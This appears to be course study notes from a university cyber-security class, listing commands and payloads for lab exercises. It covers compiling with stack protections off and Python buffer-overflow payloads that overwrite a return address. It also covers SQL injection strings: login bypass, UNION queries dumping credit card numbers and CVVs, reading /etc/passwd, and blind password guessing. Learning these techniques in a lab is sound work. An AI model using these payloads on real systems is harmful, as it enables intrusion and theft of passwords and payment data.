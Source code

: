 # UNIMORE-cyber-security

## Buffer Overflow
```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

### GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

### BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

### python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

### python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

## SQL Injection
> a space after the -- (comment macro) is required
```commandline
'-- 
```
```commandline
' or ''='' -- 
```
```commandline
' union select null, table_name, column_name,null,null,null,null from INFORMATION_SCHEMA.COLUMNS where table_name = 'credit_cards' -- 
```
```commandline
' union select null, ccnumber, ccv, expiration,null,null,null from credit_cards -- 
```
```commandline
' union select null, ccv, expiration,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
' union select null, LOAD_FILE('/etc/passwd'), null,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
scotty' AND password=(SELECT password FROM accounts WHERE username = 'scotty') -- 
```
```commandline
' OR LENGTH((SELECT password FROM accounts WHERE username='scotty'))=8 -- 
```
```commandline
john' AND LENGTH(password)=6; -- 
```
```commandline
john' AND SUBSTRING(password,-6,1)='m'; -- 
john' AND SUBSTRING(password,-6,1)='m' AND SUBSTRING(password,-5,1)='o'; -- 
john' AND SUBSTRING(password,-6,1)='m' AND SUBSTRING(password,-5,1)='o' AND SUBSTRING(password,-4,1)='n'; --
```
